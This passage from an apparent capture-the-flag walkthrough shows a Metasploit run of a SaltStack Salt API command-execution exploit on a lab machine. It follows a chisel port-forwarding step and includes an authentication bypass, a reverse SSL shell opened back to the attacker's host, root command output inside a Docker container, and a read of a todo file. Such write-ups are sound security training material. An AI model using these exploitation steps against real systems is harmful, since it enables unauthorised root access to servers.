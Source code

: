Then on the victim machine I downloaded chisel, made it executable, then created a reverse connection linking port 8000 on both machines \(this was the port the msfconsole exploit wanted\)

```text
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > run

[*] Started reverse SSL handler on 10.10.15.98:9967 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Auth bypass successful.
[*] Executing Unix Command for cmd/unix/reverse_python_ssl
[*] Command shell session 1 opened (10.10.15.98:9967 -> 10.10.10.205:54552) at 2020-12-13 17:29:05 -0500

whoami
root
cat /root/root.txt
cat: /root/root.txt: No such file or directory
ls -la
total 88
drwxr-xr-x   1 root root 4096 Jun 30 12:33 .
drwxr-xr-x   1 root root 4096 Jun 30 12:33 ..
-rwxr-xr-x   1 root root    0 Jun 30 12:33 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 23  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
drwxr-xr-x   6 root root  360 Dec 13 22:36 dev
drwxr-xr-x   1 root root 4096 Jun 30 12:38 etc
drwxr-xr-x   2 root root 4096 Feb  1  2020 home
drwxr-xr-x   1 root root 4096 Apr 23  2020 lib
drwxr-xr-x   2 root root 4096 Apr 22  2020 lib64
drwxr-xr-x   2 root root 4096 Apr 22  2020 media
drwxr-xr-x   2 root root 4096 Apr 22  2020 mnt
drwxr-xr-x   2 root root 4096 Apr 22  2020 opt
dr-xr-xr-x 183 root root    0 Dec 13 16:52 proc
drwx------   1 root root 4096 Jun 30 12:45 root
drwxr-xr-x   1 root root 4096 Dec 13 16:52 run
drwxr-xr-x   1 root root 4096 Apr 23  2020 sbin
drwxr-xr-x   2 root root 4096 Apr 22  2020 srv
dr-xr-xr-x  13 root root    0 Dec 13 16:52 sys
drwxrwxrwt   1 root root 4096 Dec 13 22:17 tmp
drwxr-xr-x   1 root root 4096 Apr 22  2020 usr
drwxr-xr-x   1 root root 4096 Apr 22  2020 var
cd root
[*] 127.0.0.1 - Command shell session 1 closed.
```

for some reason executing some commands caused my connection to drop so I had to keep recreated the session

```text
cat /root/todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```
